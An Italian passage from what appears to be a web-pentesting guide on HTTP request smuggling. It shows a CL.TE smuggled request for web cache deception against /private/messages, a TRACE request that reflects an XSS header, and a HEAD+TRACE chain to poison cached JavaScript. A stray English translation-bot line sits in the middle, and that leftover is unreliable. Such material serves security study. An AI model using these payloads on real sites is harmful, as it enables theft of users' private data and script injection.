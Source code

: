 > **Qual è la differenza tra avvelenamento della cache web e inganno della cache web?**
>
> - Nell'**avvelenamento della cache web**, l'attaccante costringe l'applicazione a memorizzare del contenuto malevolo nella cache, e questo contenuto viene servito dalla cache ad altri utenti dell'applicazione.
> - Nell'**inganno della cache web**, l'attaccante costringe l'applicazione a memorizzare del contenuto sensibile appartenente a un altro utente nella cache, e l'attaccante poi recupera questo contenuto dalla cache.

L'attaccante crea una richiesta smuggled che recupera contenuti sensibili specifici per l'utente. Considera il seguente esempio:
```markdown
`POST / HTTP/1.1`\
`Host: vulnerable-website.com`\
`Connection: keep-alive`\
`Content-Length: 43`\
`Transfer-Encoding: chunked`\
`` \ `0`\ ``\
`GET /private/messages HTTP/1.1`\
`Foo: X`
```
Se questa richiesta di smuggling avvelena un'entrata della cache destinata a contenuti statici (ad es., `/someimage.png`), i dati sensibili della vittima da `/private/messages` potrebbero essere memorizzati nella cache sotto l'entrata della cache dei contenuti statici. Di conseguenza, l'attaccante potrebbe potenzialmente recuperare questi dati sensibili memorizzati nella cache.

### Abusare di TRACE tramite HTTP Request Smuggling <a href="#exploiting-web-cache-poisoning-via-http-request-smuggling" id="exploiting-web-cache-poisoning-via-http-request-smuggling"></a>

[**In questo post**](https://portswigger.net/research/trace-desync-attack) si suggerisce che se il server ha abilitato il metodo TRACE, potrebbe essere possibile abusarne con un HTTP Request Smuggling. Questo perché questo metodo rifletterà qualsiasi intestazione inviata al server come parte del corpo della risposta. Ad esempio:
```
TRACE / HTTP/1.1
Host: example.com
XSS: <script>alert("TRACE")</script>
```
Sure, please provide the text you would like me to translate.
```
HTTP/1.1 200 OK
Content-Type: message/http
Content-Length: 115

TRACE / HTTP/1.1
Host: vulnerable.com
XSS: <script>alert("TRACE")</script>
X-Forwarded-For: xxx.xxx.xxx.xxx
```
Un esempio su come abusare di questo comportamento sarebbe **smuggler prima una richiesta HEAD**. Questa richiesta verrà risposta solo con le **intestazioni** di una richiesta GET (**`Content-Type`** tra esse). E smuggler **immediatamente dopo la HEAD una richiesta TRACE**, che rifletterà i dati inviati.\
Poiché la risposta HEAD conterrà un'intestazione `Content-Length`, la **risposta della richiesta TRACE sarà trattata come il corpo della risposta HEAD, riflettendo quindi dati arbitrari** nella risposta.\
Questa risposta sarà inviata alla richiesta successiva attraverso la connessione, quindi potrebbe essere **utilizzata in un file JS memorizzato nella cache, ad esempio, per iniettare codice JS arbitrario**.
